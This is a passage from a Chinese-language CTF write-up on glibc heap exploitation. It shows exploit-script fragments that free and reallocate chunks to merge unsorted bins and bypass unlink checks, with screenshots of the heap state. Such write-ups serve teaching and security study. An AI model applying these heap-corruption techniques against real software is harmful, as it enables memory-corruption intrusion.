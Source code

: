 堆块的整体分布

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t017b6408d77633880c.png)

### <a class="reference-link" name="5%E3%80%81"></a>5、

这里完成了第二次写入

之后的delete

```
for i in range(7,14):#0x98
        delete(i)
    for i in range(21,28):#0xb8
        delete(i)

    delete(0x3e)  #0x98
    delete(58)  #原来的50号
    delete(0x36)  #0xb8
    delete(49)#应该是3个unsortbin    49 58合并成一个大的
    pause()
```

此时的堆块情况

[![](https://p5.ssl.qhimg.com/t01b56f9385090732ac.png)](https://p5.ssl.qhimg.com/t01b56f9385090732ac.png)

目前的堆块情况

[![](https://p1.ssl.qhimg.com/t01e3907f061dca341b.png)](https://p1.ssl.qhimg.com/t01e3907f061dca341b.png)

经过这次的delete ， unlink的检测基本上绕过完毕bk fd -&gt;0x20+位置

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01ed50847e42122cd2.png)

继续操作

```
claim(0xb8)
    claim(0x98)
    #----------------------------------------------------
    add(0xb8) #49
    add(0x98) #0x36  这两个都是直接分配

    add(0xc8)#0x3a
    add(0x68)#0x3e   这两个是0x141的切割
```

此时的整体heap

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01264c6f1a61df431a.png)
